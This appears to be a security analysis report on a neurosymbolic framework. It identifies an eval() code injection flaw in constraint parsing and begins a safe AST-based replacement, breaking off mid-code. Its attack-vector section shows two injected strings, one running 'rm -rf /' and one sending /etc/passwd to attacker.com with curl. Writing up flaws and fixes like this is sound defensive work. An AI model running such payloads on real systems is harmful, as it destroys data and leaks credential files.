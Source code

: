 # Security Analysis Report: Neurosymbolic Framework

## Executive Summary

This report analyzes two critical issues identified in the neurosymbolic framework:

1. **CRITICAL**: Code injection vulnerability in constraint parsing (`eval()` usage)
2. **HIGH**: LSTM incompatibility with Sequential container architecture

## Issue 1: Code Injection Vulnerability (CRITICAL)

### Location
- **File**: `neurosymbolic_framework/core/symbolic_engine.py`
- **Lines**: 352-356
- **Method**: `_parse_constraint`

### Problem Description
The `_parse_constraint` method uses Python's `eval()` function directly on user-provided constraint strings, creating a severe code injection vulnerability. This allows attackers to execute arbitrary Python code on the server.

### Vulnerable Code Pattern
```python
def _parse_constraint(self, constraint_str: str):
    """Parse constraint string into evaluable expression."""
    # VULNERABLE: Direct eval() usage
    return eval(constraint_str)
```

### Attack Vector
An attacker could inject malicious code such as:
```python
# Malicious constraint input
"__import__('os').system('rm -rf /')"  # File system destruction
"__import__('subprocess').call(['curl', 'attacker.com/steal', '--data', open('/etc/passwd').read()])"  # Data exfiltration
```

### Recommended Fix

#### Option 1: Safe Expression Parser (Recommended)
Replace `eval()` with a safe expression parser:

```python
import ast
import operator
from typing import Dict, Any

class SafeConstraintParser:
    """Safe constraint parser that prevents code injection."""
    
    ALLOWED_OPERATORS = {
        ast.Add: operator.add,
        ast.Sub: operator.sub,
        ast.Mult: operator.mul,
        ast.Div: operator.truediv,
        ast.Pow: operator.pow,
        ast.USub: operator.neg,
        ast.UAdd: operator.pos,
        ast.Lt: operator.lt,
        ast.LtE: operator.le,
        ast.Gt: operator.gt,
```